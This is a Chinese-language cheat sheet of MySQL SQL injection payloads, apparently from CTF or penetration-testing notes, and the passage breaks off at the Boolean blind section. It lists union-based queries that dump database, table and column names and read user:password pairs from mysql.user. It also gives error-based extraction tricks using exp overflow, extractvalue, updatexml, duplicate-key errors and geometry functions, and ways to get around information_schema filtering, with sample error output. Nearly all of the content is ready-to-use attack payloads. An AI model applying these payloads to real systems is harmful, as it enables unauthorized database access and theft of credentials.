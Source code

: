 - Union Based
    - 判断column数
        - `union select 1,2,3...N`
        - `order by N`
    - `AND 1=2 UNION SELECT 1, 2, password FROM admin--+`
    - `LIMIT N, M` 跳过前N条记录，取M条
    - 爆资料库名
        - `union select 1,2,schema_name from information_schema.schemata limit 1,1`
    - 爆表名
        - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1`
        - `union select 1,2,table_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - 爆Column名
        - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - MySQL User
        - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
- Error Based
    - 长度限制
        - 错误消息有长度限制
        - `#define ERRMSGSIZE (512)`
    - Overflow
        - MySQL > 5.5.5 overflow才会有错误消息
        - `SELECT ~0` => `18446744073709551615`
        - `SELECT ~0 + 1` => ERROR
        - `SELECT exp(709)` => `8.218407461554972e307`
        - `SELECT exp(710)` => ERROR
        - 若查询成功，会返回0
            - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
            - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
        - `select (select(!x-~0)from(select(select user())x)a);`
            - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
            - MySQL > 5.5.53 不会显示查询结果
    - xpath
        - extractvalue (有长度限制，32位)
            - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
        - updatexml (有长度限制，32位)
            - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - 主键重复
        - `select count(*) from test group by concat(version(),floor(rand(0)*2));`
            - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
    - 其它函数 (5.7)
        - `select ST_LatFromGeoHash(version());`
        - `select ST_LongFromGeoHash(version());`
        - `select GTID_SUBSET(version(),1);`
        - `select GTID_SUBTRACT(version(),1);`
        - `select ST_PointFromGeoHash(version(),1);`
    - 爆库名、表名、字段名
        - 当过滤`information_schema`等关键字时，可以用下面方法爆库名
            - `select 1,2,3 from users where 1=abc();`
                - `ERROR 1305 (42000): FUNCTION fl4g.abc does not exist`
        - 爆表名
            - `select 1,2,3 from users where Polygon(id);`
            - ``select 1,2,3 from users where linestring(id);``
                - ```ERROR 1367 (22007): Illegal non geometric '`fl4g`.`users`.`id`' value found during parsing```
        - 爆Column
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b)as c);`
                - `ERROR 1060 (42S21): Duplicate column name 'id'`
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b using(id))as c);`
                - `ERROR 1060 (42S21): Duplicate column name 'username'`
- Blind Based (Time/Boolean)
    - Boolean